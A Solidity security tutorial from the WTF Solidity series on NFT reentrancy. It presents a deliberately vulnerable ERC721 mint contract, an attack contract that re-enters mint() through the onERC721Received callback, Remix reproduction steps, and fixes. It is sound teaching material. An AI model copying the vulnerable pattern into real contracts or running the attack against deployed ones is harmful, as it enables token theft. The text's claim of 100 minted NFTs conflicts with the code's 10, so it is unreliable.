 ```yaml
---
title: S16. NFT Reentrancy Attack
tags:
  - solidity
  - security
  - fallback
  - nft
  - erc721
  - erc1155
---
```


# WTF Solidity S16. NFT Reentrancy Attack

Recently, I have been revisiting Solidity, consolidating the finer details, and writing "WTF Solidity" tutorials for newbies.

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science) | [@WTFAcademy_](https://twitter.com/WTFAcademy_)

Community: [Discord](https://discord.gg/5akcruXrsk)｜[Wechat](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[Website wtf.academy](https://wtf.academy)

Codes and tutorials are open source on GitHub: [github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

English translations by: [@to_22X](https://twitter.com/to_22X)

---

In this lesson, we will discuss the reentrancy vulnerability in NFT contracts and attack a vulnerable NFT contract to mint 100 NFTs.

## NFT Reentrancy Risk

In [S01 Reentrancy Attack](https://github.com/AmazingAng/WTF-Solidity/blob/main/Languages/en/S01_ReentrancyAttack_en/readme.md), we discussed that reentrancy attack is one of the most common attacks in smart contracts, where an attacker exploits contract vulnerabilities (e.g., `fallback` function) to repeatedly call the contract and transfer assets or mint a large number of tokens. When transferring NFTs, the contract's `fallback` or `receive` functions are not triggered. So why is there a reentrancy risk?

This is because the NFT standards ([ERC721](https://github.com/AmazingAng/WTF-Solidity/blob/main/Languages/en/34_ERC721_en/readme.md)/[ERC1155](https://github.com/AmazingAng/WTF-Solidity/blob/main/Languages/en/40_ERC1155_en/readme.md)) have introduced secure transfers to prevent users from accidentally sending assets to a black hole. If the recipient address is a contract, it will call the corresponding check function to ensure that it is ready to receive the NFT asset. For example, the `safeTransferFrom()` function of ERC721 calls the `onERC721Received()` function of the target address, and a hacker can embed malicious code in it to launch an attack.

We have summarized the functions in ERC721 and ERC1155 that have potential reentrancy risks:

![](./img/S16-1.png)

## Vulnerable Example

Now let's learn an example of an NFT contract with a reentrancy vulnerability. This is an `ERC721` contract where each address can mint one NFT for free, but we can exploit the reentrancy vulnerability to mint multiple NFTs at once.

### Vulnerable Contract

The `NFTReentrancy` contract inherits from the `ERC721` contract. It has two main state variables: `totalSupply` to track the total supply of NFTs and `mintedAddress` to keep track of addresses that have already been minted to prevent a user from minting multiple times. It has two main functions:

- Constructor: Initializes the name and symbol of the `ERC721` NFT.
- `mint()`: Mint function where each user can mint one NFT for free. **Note: This function has a reentrancy vulnerability!**

```solidity
contract NFTReentrancy is ERC721 {
    uint256 public totalSupply;
    mapping(address => bool) public mintedAddress;
    // Constructor to initialize the name and symbol of the NFT collection
    constructor() ERC721("Reentry NFT", "ReNFT"){}

    // Mint function, each user can only mint 1 NFT
    // Contains a reentrancy vulnerability
    function mint() payable external {
        // Check if already minted
        require(mintedAddress[msg.sender] == false);
        // Increase total supply
        totalSupply++;
        // Mint the NFT
        _safeMint(msg.sender, totalSupply);
        // Record the minted address
        mintedAddress[msg.sender] = true;
    }
}
```

### Attack Contract

The reentrancy vulnerability in the `NFTReentrancy` contract lies in the `mint()` function, which calls the `_safeMint()` function in the `ERC721` contract, which in turn calls the `_checkOnERC721Received()` function of the recipient address. If the recipient address's `_checkOnERC721Received()` contains malicious code, an attack can be performed.

The `Attack` contract inherits the `IERC721Receiver` contract and has one state variable `nft` that stores the address of the vulnerable NFT contract. It has three functions:

- Constructor: Initializes the address of the vulnerable NFT contract.
- `attack()`: Attack function that calls the `mint()` function of the NFT contract and initiates the attack.
- `onERC721Received()`: ERC721 callback function with embedded malicious code that repeatedly calls the `mint()` function and mints 10 NFTs.

```solidity
contract Attack is IERC721Receiver {
    NFTReentrancy public nft; // Address of the NFT contract

    // Initialize the NFT contract address
    constructor(NFTReentrancy _nftAddr) {
        nft = _nftAddr;
    }

    // Attack function to initiate the attack
    function attack() external {
        nft.mint();
    }

    // Callback function for ERC721, repeatedly calls the mint function to mint 10 NFTs
    function onERC721Received(address, address, uint256, bytes memory) public virtual override returns (bytes4) {
        if(nft.balanceOf(address(this)) < 10){
            nft.mint();
        }
        return this.onERC721Received.selector;
    }
}
```

## Reproduce on `Remix`

1. Deploy the `NFTReentrancy` contract.
2. Deploy the `Attack` contract with the `NFTReentrancy` contract address as the parameter.
3. Call the `attack()` function of the `Attack` contract to initiate the attack.
4. Call the `balanceOf()` function of the `NFTReentrancy` contract to check the holdings of the `Attack` contract. You will see that it holds `10` NFTs, indicating a successful attack.

![](./img/S16-2.png)

## How to Prevent

There are two main methods to prevent reentrancy attack vulnerabilities: checks-effects-interactions pattern and reentrant guard.

1. Checks-Effects-Interactions Pattern: This pattern emphasizes checking the state variables, updating the state variables (e.g., balances), and then interacting with other contracts. We can use this pattern to fix the vulnerable `mint()` function:

```solidity
  function mint() payable external {
      // Check if already minted
      require(mintedAddress[msg.sender] == false);
      // Increase total supply
      totalSupply++;
      // Record the minted address
      mintedAddress[msg.sender] = true;
      // Mint the NFT
      _safeMint(msg.sender, totalSupply);
  }
```

2. Reentrant Lock: It is a modifier used to prevent reentrant functions. It is recommended to use [ReentrancyGuard](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/security/ReentrancyGuard.sol) provided by OpenZeppelin.

## Summary

In this lesson, we introduced the reentrancy vulnerability in NFTs and attacked a vulnerable NFT contract by minting 100 NFTs. Currently, there are two main methods to prevent reentrancy attacks: the checks-effects-interactions pattern and the reentrant lock.
